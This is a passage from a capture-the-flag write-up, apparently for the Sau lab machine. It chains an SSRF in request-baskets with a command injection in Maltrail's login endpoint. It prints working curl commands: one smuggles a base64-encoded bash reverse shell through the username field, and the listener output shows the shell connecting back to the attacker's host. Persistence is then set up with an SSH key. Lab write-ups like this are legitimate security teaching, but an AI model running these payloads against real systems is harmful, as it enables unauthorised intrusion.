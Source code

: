 Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

However, we can't directly send the command to the web server on port `80/tcp`,
so we'll use the SSRF we identified [earlier](#ssrf-cve-2023-27163) to do so.

### Exploitation

Let's create a new basket named `login`, that forwards and shows the requests
sent to `http://127.0.0.1/login`, the vulnerable endpoint.

```sh
❯ curl -s -o /dev/null -H "Content-Type: application/json" "http://10.10.11.224:55555/api/baskets/login" -X "POST" -d '{"forward_url": "http://127.0.0.1/login","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 200}'
```

Now let's send our reverse shell payload to our basket:

```sh
❯ curl -s -o /dev/null "http://10.10.11.224:55555/login" --data-urlencode "username=;%60/bin/echo $BASE64_REVSHELL_PAYLOAD | /usr/bin/base64 -d | /bin/bash -i%60"
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.224] 57206
<SNIP>
puma@sau:/opt/maltrail$
```

It caught the reverse shell!

### Stabilizing the shell

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key and I'll add the corresponding key to `authorized_keys`.
Finally I'll connect over SSH to Sau. This way, I'll have a much more stable
shell.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `puma`.

### Architecture

What is Sau's architecture?

```sh
puma@sau:~$ uname -m
```

```
x86_64
```
